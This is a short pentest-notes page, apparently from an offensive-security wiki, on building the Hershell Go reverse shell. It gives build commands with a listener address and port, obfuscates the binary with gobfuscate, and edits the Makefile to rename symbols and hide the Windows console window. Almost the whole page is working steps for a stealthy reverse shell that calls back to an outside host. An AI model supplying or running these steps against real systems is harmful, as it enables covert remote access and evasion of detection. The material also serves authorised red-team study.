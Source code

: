# Hershell

[Hershell](https://github.com/lesnuages/hershell) is a simple TCP reverse shell written in Go.

## Installing Hershell

```
go get github.com/lesnuages/hershell
cd $GOPATH/src/github.com/lesnuages/hershell/
make depends
make windows64 LHOST=192.168.0.12 LPORT=1234
```

## Obfuscating  Hershell

[gobfuscate](https://github.com/unixpickle/gobfuscate) obfuscate Go binaries and packages.

```
go get github.com/unixpickle/gobfuscate
gobfuscate -outdir github.com/lesnuages/hershell ./out
```

{% hint style="warning" %}
You will have to set the `GOOS` and `GOARCH` before running **gobfuscate** since it's using the default build profile otherwise it will takes only the Linux source files.
{% endhint %}

The Makefile also needs to be copied and edited:

```
LINUX_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2)"
WIN_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2) -H=windowsgui"
```
